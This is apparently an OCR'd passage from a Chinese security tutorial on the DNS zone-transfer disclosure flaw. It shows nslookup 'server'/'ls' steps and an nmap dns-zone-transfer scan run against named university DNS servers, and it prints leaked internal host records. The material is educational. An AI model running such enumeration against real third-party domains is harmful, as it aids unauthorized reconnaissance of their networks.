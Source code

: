 
​    

操作基本的步骤是:

1.  输入nslookup命令进入交互式shell
    
2.  Server 命令参数设定查询将要使用的DNS服务器
    
3.  Ls命令列出某个域中的所有域名
    

攻击者能获取的敏感主要包括：

1）网络的拓扑结构，服务器集中的IP地址段

2）数据库服务器的IP地址

3）测试服务器的IP地址，

4）VPN服务器地址泄露

5）其他敏感服务器

以上示例了存在漏洞的DNS服务器，若是不存在漏洞的主机，则可能提示错误Query Refused:

    D:\>nslookup
    默认服务器:  public1.114dns.com
    Address:  114.114.114.114
    
    > server ns.pku.edu.cn
    默认服务器:  ns.pku.edu.cn
    Address:  202.112.7.13
    
    > ls pku.edu.cn
    [ns.pku.edu.cn]
    *** 无法列出域 pku.edu.cn: Query refused
    DNS 服务器拒绝将区域 pku.edu.cn 传送到您的计算机。如果这不正确，
    请检查 IP 地址 202.112.7.13 的 DNS 服务器上 pku.edu.cn 的
    区域传送安全设置。


#### 使用nmap扫描DNS域传送泄露漏洞

    nmap --script dns-zone-transfer --script-args dns-zone-transfer.domain=thnu.edu.cn -p 53 -Pn dns1.thnu.edu.cn
    
    Starting Nmap 7.60 ( https://nmap.org ) at 2017-11-04 14:24 CST
    Nmap scan report for dns1.thnu.edu.cn (125.223.168.5)
    Host is up (0.031s latency).
    
    PORT   STATE SERVICE
    53/tcp open  domain
    | dns-zone-transfer: 
    | thnu.edu.cn.             SOA  dns1.thnu.edu.cn. root.thnu.edu.cn.
    | thnu.edu.cn.             NS   dns1.thnu.edu.cn.
    | thnu.edu.cn.             MX   0 mail.thnu.edu.cn.
    | admin.thnu.edu.cn.       A    172.16.200.11
    | admissions.thnu.edu.cn.  A    222.160.127.36
    | alumni.thnu.edu.cn.      A    222.160.127.36
    | bwc.thnu.edu.cn.         A    222.160.127.36
    | cxbd.thnu.edu.cn.        A    222.160.127.36
    | cxzx.thnu.edu.cn.        A    222.160.127.36
    | ddh.thnu.edu.cn.         A    222.160.127.38
